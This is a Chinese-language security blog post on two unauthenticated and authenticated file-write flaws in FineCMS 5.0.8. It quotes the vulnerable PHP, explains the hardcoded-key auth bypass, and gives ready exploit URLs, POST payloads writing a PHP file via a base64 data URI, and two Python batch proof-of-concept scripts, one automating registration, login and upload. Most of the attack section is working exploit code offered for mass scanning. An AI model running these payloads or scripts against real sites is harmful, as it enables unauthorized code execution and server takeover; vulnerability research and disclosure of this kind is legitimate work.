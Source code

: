 ## 0x01 前言

就要被**，美其名曰：比我的web安全研究和代码审计更有前途。当然是选择原谅他啦。
先审计finecms去去火，找到六处漏洞，先放两处容易被发现的getshell和对应的两个python脚本

## 0x02 getshell

**第一处getshell**：在C:/phpStudy/WWW/finecms/dayrui/controllers/Api.php中的data2函数，大约在第115行，有问题的代码大约在178行

```
public function data2() {

    $data = array();

    // 安全码认证
    $auth = $this->input->get('auth', true);
    if ($auth != md5(SYS_KEY)) {
        // 授权认证码不正确
        $data = array('msg' => '授权认证码不正确', 'code' => 0);
    } else {
        // 解析数据
        $cache = '';
        $param = $this->input->get('param');
        if (isset($param['cache']) && $param['cache']) {
            $cache = md5(dr_array2string($param));
            $data = $this->get_cache_data($cache);
        }
        if (!$data) {

            if ($param == 'login') {
                // 登录认证
                $code = $this->member_model->login(
                    $this->input->get('username'),
                    $this->input->get('password'),
                    0, 1);
                if (is_array($code)) {
                    $data = array(
                        'msg' => 'ok',
                        'code' => 1,
                        'return' => $this->member_model->get_member($code['uid'])
                    );
                } elseif ($code == -1) {
                    $data = array('msg' => fc_lang('会员不存在'), 'code' => 0);
                } elseif ($code == -2) {
                    $data = array('msg' => fc_lang('密码不正确'), 'code' => 0);
                } elseif ($code == -3) {
                    $data = array('msg' => fc_lang('Ucenter注册失败'), 'code' => 0);
                } elseif ($code == -4) {
                    $data = array('msg' => fc_lang('Ucenter：会员名称不合法'), 'code' => 0);
                }
            } elseif ($param == 'update_avatar') {
                // 更新头像
                $uid = (int)$_REQUEST['uid'];
                $file = $_REQUEST['file'];
                //
                // 创建图片存储文件夹
                $dir = SYS_UPLOAD_PATH.'/member/'.$uid.'/';
                @dr_dir_delete($dir);
                if (!is_dir($dir)) {
                    dr_mkdirs($dir);
                }
                $file = str_replace(' ', '+', $file);
                if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                    $new_file = $dir.'0x0.'.$result[2];
                    if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                        $data = array(
                            'msg' => '目录权限不足或磁盘已满',
                            'code' => 0
                        );
                    }
```

其中，首先

```
$file = $_REQUEST['file'];
```

获取$file变量

```
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                        $new_file = $dir.'0x0.'.$result[2];
                        if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                            $data = array(
                                'msg' => '目录权限不足或磁盘已满',
                                'code' => 0
                            );
```

然后用preg_match函数进行正则匹配，因为$file变量可控，所以$result也是可控的，从而$new_file也是可控的，可以构造为php文件，然后

```
file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file))))
```

对$result[1]进行base64解码，然后写入$new_file文件中。显然，是可以任意写文件进行getshell的。所以，我们要让程序能够运行到这些代码，不能在之前就退出了。要经过

```
 $auth = $this->input->get('auth');
 if ($auth != md5(SYS_KEY))
```

SYS_KEY被系统硬编码为24b16fede9a67c9251d3e7c7161c83ac，在C:phpStudyWWWconfigsystem.php中有定义。直接md5加密一次即可绕过

所以最终的payload为

```
http://localhost:88/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+
```

无需登录，直接getshell,路径为http://localhost:88/uploadfile/member/0/0x0.php
![1](FineCMS最新版5.0.8两处getshell/1.png)

**第二处getshell**：在文件C:/phpStudy/WWW/finecms/dayrui/controllers/member/Account.php中的upload函数

```php
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                $new_file = $dir.'0x0.'.$result[2];
                if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                    exit(dr_json(0, '目录权限不足或磁盘已满'));
                
```

注册会员，登录

```
访问：http://localhost:88/index.php?s=member&c=account&m=upload
POST：tx=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+
```

<img src="FineCMS最新版5.0.8两处getshell/2.png" alt="2" style="zoom:75%;" />

![3](FineCMS最新版5.0.8两处getshell/3.png)

## 0x03 Python批量poc脚本

pocsuite和poc-T是两个成熟的poc框架，不过感觉核心代码是别人的，只写一些poc插件的话，就是为别人造轮子，所以抽了一些代码写了个自己的工具，可能连轻型框架都算不上，只够自己用的。
第一处getshell的python代码（因为是直接getshell，无需登录，所以很简单）：

```python
import sys
import requests
def poc(target):
    payload="/index.php?c=api&m=data2&auth=50ce0d2401ce4802751739552c8e4467&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+"
    url=target+payload
    shell=target+'/uploadfile/member/0/0x0.php'
    try:
        result=requests.get(url,timeout=3)
        verify=requests.get(shell,timeout=3)
        if verify.status_code==200 and 'code' in verify.text:
            return True
    except Exception,e:
        print e
```

第二处getshell的Python代码（需要自动化注册、登录、利用）：

```python
#Finecms version:5.0.8
#Author:404notfound

import random
import sys
import requests
def poc(url):
    username=random.randint(0,999999)
    seed = "1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    email = []
    for i in range(8):
        email.append(random.choice(seed))
    email = ''.join(email)
    #print email+"@"+email+".com"
    #print username
    
    #step 1 register
    #print "[+] register user"
    register_url=url+"/index.php?s=member&c=register&m=index"
    register_payload={"back":"","data[username]":username,"data[password]":"123456","data[password2]":"123456","data[email]":email+"@"+email+".com"}
    #step 2 login
    #print "[+] user login"
    login_url=url+"/index.php?s=member&c=login&m=index"
    login_payload={"back":"","data[username]":username,"data[password]":"123456","data[auto]":"1"}
    #step 3 attack
    #print "[+] loading payload"
    vul_url=url+"/index.php?s=member&c=account&m=upload"
    vul_payload={"tx":"data:image/php;base64,NDA0bm90Zm91bmQ8P3BocCBwaHBpbmZvKCk7Pz4="}
    try:
        s = requests.session()
        resu=s.post(register_url,data=register_payload)
        result=s.post(login_url,data=login_payload)
        result2=s.post(vul_url,data=vul_payload).content
        if "status" in result2:
            return True
        else:
            return False
    except Exception,e:
        pass
        #print e
    #print "[+] ALL DONE"
    #step 4 find shell path
       
#print poc("http://localhost")
```

get脚本github访问获取

